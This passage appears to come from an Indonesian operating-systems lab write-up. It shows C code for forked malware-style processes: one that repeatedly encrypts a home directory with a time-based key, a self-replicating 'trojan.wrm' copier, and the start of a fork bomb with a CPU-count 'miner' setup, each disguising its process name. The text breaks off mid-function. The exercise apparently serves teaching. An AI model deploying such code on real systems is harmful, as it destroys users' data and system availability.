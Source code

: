 Anak fitur pertama dan kedua harus berjalan berulang ulang dengan interval 30 detik.
```C
// Kedua child ditambahkan sleep(30) agar ada interval
void child_1(int argc, char **argv) {
    pid_t child = fork();
    if (child < 0) exit(EXIT_FAILURE);
    if (child == 0) {
        prctl(PR_SET_NAME, "encryptor", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "encryptor", len);
        }

        unsigned int key = (unsigned int)time(NULL);
        while (1) {
            encrypt("/home/isolate", key);
            sleep(30);
        }
        exit(EXIT_SUCCESS);
    }
}

void child_2(int argc, char **argv) {
    pid_t child = fork();
    if (child < 0) exit(EXIT_FAILURE);
    if (child == 0) {
        prctl(PR_SET_NAME, "trojan.wrm", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "trojan.wrm", len);
        }

        while (1) {
            copy_self_recursive("/home/target");
            sleep(30);
        }
        exit(EXIT_SUCCESS);
    }
}
```
### e)
Tambahkan anak fitur ketiga yang akan membuat sebuah fork bomb di dalam perangkat.
```C
void child_3(int argc, char **argv) {
    pid_t rodok = fork();
    if (rodok < 0) exit(EXIT_FAILURE);
    if (rodok == 0) {
        prctl(PR_SET_NAME, "rodok.exe", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "rodok.exe", len);
        }

        srand(time(NULL));
        int max_miner = sysconf(_SC_NPROCESSORS_ONLN);
        if (max_miner < 3) max_miner = 3;

```